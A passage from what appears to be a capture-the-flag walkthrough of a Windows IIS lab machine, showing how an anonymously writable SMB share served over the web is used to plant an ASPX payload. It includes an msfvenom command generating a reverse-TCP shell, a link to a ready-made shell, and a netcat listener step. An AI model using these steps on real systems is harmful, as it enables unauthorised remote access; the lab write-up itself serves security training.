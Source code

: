 As you can see, nothing showed up on the first scan.  However, the second scan showed a hit for the `/nt4wrksv` directory.  Recall that this is the name of the SMB share which we were able to access anonymously.

To confirm this, we can navigate to `/nt4wrks/passwords.txt`:

![confirmation](screenshots/8_confirmation.png)

This means that we can upload files to the SMB share and access them through our browser.  So let's try and upload a reverse shell.

#### Exploitation

Since this is an ISS machine, they require .aspx shells.  I used this one [here](https://raw.githubusercontent.com/borjmz/aspx-reverse-shell/master/shell.aspx) but you can also create one with `msfvenom` using the following command:

```
msfvenom -p windows/x86/shell_reverse_tcp LHOST<your_ip> LPORT=<your_listening_port> -f aspx -o shell.aspx
```

Let's now upload this through SMB:

![uploading shell](screenshots/9_uploading_shell.png)

We also need to start a `netcat` listener on the port we declared when creating the payload.  Now, navigate to `/nt4wkrs/shell.aspx` in your browser.  `netcat` should catch the callback:

![netcat callback](screenshots/10_netcat_callback.png)
